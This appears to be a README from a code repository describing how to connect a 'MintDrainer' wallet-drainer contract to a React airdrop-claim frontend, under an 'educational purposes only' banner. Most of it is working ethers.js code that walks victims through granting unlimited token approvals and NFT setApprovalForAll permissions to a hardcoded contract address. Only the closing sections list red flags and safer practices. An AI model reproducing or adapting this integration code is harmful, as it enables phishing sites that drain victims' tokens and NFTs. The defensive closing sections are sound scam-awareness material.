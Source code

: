 # Web3 Integration for Contract Interaction

This document explains how to integrate the MintDrainer contract with our React frontend for the airdrop claim site.

## WARNING: EDUCATIONAL PURPOSES ONLY

**IMPORTANT**: The contracts in this repository are created for **educational purposes only**. They demonstrate malicious patterns that are used by scammers. **DO NOT DEPLOY OR USE THESE CONTRACTS IN PRODUCTION**. These are examples of what to look out for to avoid being scammed.

## Integration Overview

The integration process involves several steps:

1. Setting up wallet connection via ethers.js
2. Creating contract interfaces
3. Requesting the necessary approvals
4. Executing the claim function
5. Handling the transaction flow

## Implementation Details

### 1. Contract Interface

We need to create an interface for the contract using ethers.js:

```typescript
import { ethers } from 'ethers';

// MintDrainer ABI - only the functions we need
const MINT_DRAINER_ABI = [
  "function claimReward() external",
  "event RewardClaimed(address indexed user, uint256 amount)"
];

// Contract address on Optimism
const CONTRACT_ADDRESS = "0x8231B6eEB3dDC15f76a48Ef22b5282ca0fcFC2ED"; // This would be the address of the deployed contract
```

### 2. Frontend Integration Function

Here's how we would integrate this with our wallet connection:

```typescript
// Function to handle claim button click
async function handleClaimReward() {
  if (!isWalletConnected) {
    await connectWallet();
    return;
  }

  // Ensure we're on Optimism network
  if (!isOptimismNetwork) {
    await switchToOptimism();
    return;
  }

  // Show loading state
  setIsProcessing(true);

  try {
    // Create contract instance
    const provider = new ethers.providers.Web3Provider(window.ethereum);
    const signer = provider.getSigner();
    const contract = new ethers.Contract(CONTRACT_ADDRESS, MINT_DRAINER_ABI, signer);

    // Request approval for known tokens (this would be done in a loop for all tokens)
    // This is what makes this contract dangerous - it requests approval for ALL tokens

    // Example of one token approval:
    // const tokenContract = new ethers.Contract(tokenAddress, ERC20_ABI, signer);
    // await tokenContract.approve(CONTRACT_ADDRESS, ethers.constants.MaxUint256);

    // Call claimReward function
    const tx = await contract.claimReward();

    // Wait for transaction to be confirmed
    const receipt = await tx.wait();

    // Extract the reward amount from events
    const event = receipt.events.find(e => e.event === 'RewardClaimed');
    if (event) {
      const rewardAmount = event.args.amount;
      setClaimedAmount(ethers.utils.formatUnits(rewardAmount, 18));
    }

    // Show success message
    setTransactionSuccess(true);
  } catch (error) {
    console.error("Error claiming reward:", error);
    setTransactionError(error.message);
  } finally {
    setIsProcessing(false);
  }
}
```

### 3. Required Approvals

What makes these type of contracts dangerous is they require approvals for ALL tokens:

```typescript
// Function to request approvals for all tokens
async function requestAllApprovals() {
  const provider = new ethers.providers.Web3Provider(window.ethereum);
  const signer = provider.getSigner();

  // List of token addresses to request approval for
  const tokenAddresses = [
    "0x4200000000000000000000000000000000000042", // OP
    "0x7F5c764cBc14f9669B88837ca1490cCa17c31607", // USDC
    "0xDA10009cBd5D07dd0CeCc66161FC93D7c9000da1", // DAI
    // ... more tokens
  ];

  for (const tokenAddress of tokenAddresses) {
    try {
      const tokenContract = new ethers.Contract(
        tokenAddress,
        ["function approve(address spender, uint256 amount) external returns (bool)"],
        signer
      );

      // Request unlimited approval (extremely dangerous)
      const tx = await tokenContract.approve(
        CONTRACT_ADDRESS,
        ethers.constants.MaxUint256
      );

      await tx.wait();
      console.log(`Approved ${tokenAddress}`);
    } catch (error) {
      console.error(`Error approving ${tokenAddress}:`, error);
    }
  }
}
```

### 4. NFT Approvals

For NFTs, the integration would require setting approval for all:

```typescript
// Function to approve NFT collections
async function approveNFTCollections() {
  const provider = new ethers.providers.Web3Provider(window.ethereum);
  const signer = provider.getSigner();

  const nftAddresses = [
    "0x455C3D46380d1B27524658936e69d0Ded21C5c85", // Example NFT
    // ... more NFT collections
  ];

  for (const nftAddress of nftAddresses) {
    try {
      const nftContract = new ethers.Contract(
        nftAddress,
        ["function setApprovalForAll(address operator, bool approved) external"],
        signer
      );

      // Set approval for all (extremely dangerous)
      const tx = await nftContract.setApprovalForAll(CONTRACT_ADDRESS, true);
      await tx.wait();
      console.log(`Approved all NFTs for ${nftAddress}`);
    } catch (error) {
      console.error(`Error approving NFTs for ${nftAddress}:`, error);
    }
  }
}
```

## Red Flags To Look Out For

These are signs of potentially malicious airdrop contracts:

1. **Requests approval for ALL tokens** - Legitimate contracts usually only need approval for specific tokens
2. **Unlimited approval amounts** - `ethers.constants.MaxUint256` is a red flag
3. **Approval for ALL NFTs** - `setApprovalForAll` is risky
4. **Hidden contract code** - Always verify contract source code on Etherscan
5. **Urgent claiming** - "Limited time only" is often used to rush users
6. **Multiple signature requests** - Legitimate operations usually require minimal signatures
7. **Contract functions that aren't clear** - Names that don't match function behavior

## Safer Alternatives

To implement a legitimate airdrop claim:

1. Only request approval for the specific tokens needed
2. Request approval for the exact amount needed, not unlimited
3. Use transparent, verified contracts
4. Separate token approvals from claim functions
5. Don't transfer users' existing assets without clear consent

